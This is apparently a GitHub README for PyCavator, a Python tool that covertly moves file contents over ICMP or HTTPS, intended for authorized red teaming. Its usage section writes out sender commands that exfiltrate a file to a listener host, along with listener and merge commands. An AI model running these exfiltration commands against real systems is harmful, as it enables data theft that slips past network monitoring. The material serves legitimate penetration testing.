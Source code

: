 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP/HTTPS packets. 
The tool can be used for authorized red teaming and penetration testing activities or educational purposes. 
It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. 
The tool also includes a merge mode to merge output files with part numbers in the specified range. 
With PyCavator, users can easily exfiltrate or receive data using ICMP packets in a secure and efficient manner.

## Usage

### ICMP mode

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
  python pycavator-icmp.py -f input.txt -d 192.168.1.101
  
  <b>Listener mode: listen for incoming data and save in chunks</b><br/>
  python pycavator-icmp.py -l -s 192.168.1.100 -w c
  
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
  python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
  
  <b>Merge mode: merge output files with part numbers in the specified range</b><br/>
  python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder


### HTTPS mode

<b>Required libraries:</b><br/>
- `argparse`: used for parsing command-line arguments<br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
  ```bash
  python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
  ```
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
  ```bash
  python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
  ``` 

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not modify the work or use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




